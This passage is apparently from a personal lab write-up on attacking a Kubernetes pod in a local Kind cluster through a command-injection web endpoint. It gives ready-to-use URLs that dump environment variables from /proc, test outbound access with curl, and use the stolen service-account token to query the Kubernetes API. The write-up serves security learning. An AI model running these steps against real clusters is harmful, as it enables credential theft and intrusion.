 We now have the Pod token, so we have some credentials to play with. This can be used to help us explore other places in the cluster. 

2. It's also worth noting that even if this was just a **directory traversal exploit**, much of what we found—including this token—could also have been discovered. Even the environment variables are visible via the `/proc` file system. For example, printing out the contents of `/proc/self/environ` would give us the equivilent of running `env`: [http://localhost/webadmin?cmd=cat%20/proc/self/environ](http://localhost/webadmin?cmd=cat%20/proc/self/environ)

![[IMAGE 20240712211009.png]]

Now we got into the `.env` or `envorinmental variables`  of the code and other sensitive creds such as endpoint of cluster 

2. Lets see if we can have internet access via this RCE , Let's see if we have `curl` available: [http://localhost/webadmin?cmd=curl%20https://google.com](http://localhost/webadmin?cmd=curl%20https://google.com)

![[IMAGE 20240712211329.png]]

Volia ! Successfully !! 

3. Now we will take all the sensitive information from the container , We will use curl and the token credential to try to connect to the Kubernetes api-server and ask it for the cluster endpoints. The connection details are as follows:
- **Host:** the `KUBERNETES_PORT` variable value
- **URI:** the default namespace "endpoints" API `/api/v1/namespaces/default/endpoints` (it is often open to queries by any client)
- **Header:** An `Authorization: Bearer` containing contents of the token file from above\
- **CA Cert:** The CA certificate which we can assume will be in the default location at the same path as our token file and named `ca.crt`

The URL to open (replace `10.96.0.1` with your `KUBERNETES_PORT`): [http://localhost/webadmin?cmd=curl%20--cacert%20/var/run/secrets/kubernetes.io/serviceaccount/ca.crt%20-H%20%22Authorization:%20Bearer%20$(cat%20/var/run/secrets/kubernetes.io/serviceaccount/token)%22%20https://10.96.0.1/api/v1/namespaces/default/endpoints](http://localhost/webadmin?cmd=curl%20--cacert%20/var/run/secrets/kubernetes.io/serviceaccount/ca.crt%20-H%20%22Authorization:%20Bearer%20$(cat%20/var/run/secrets/kubernetes.io/serviceaccount/token)%22%20https://10.96.0.1/api/v1/namespaces/default/endpoints)

![[IMAGE 20240712211735.png]]

This command succeeds, and notice the section:

```yaml
"subsets": [
  {
    "addresses" : [
       {
         "ip": "172.19.0.3"
       }
    ],"
```

4. In a real environment, that `ip` would give us the external address for the Kubernetes API server. Because we are running in Kind, it won't be this IP address, it will just be exposed on localhost with the same port. This is a vulnerability, and has been created by a too permissive policy for the service token.
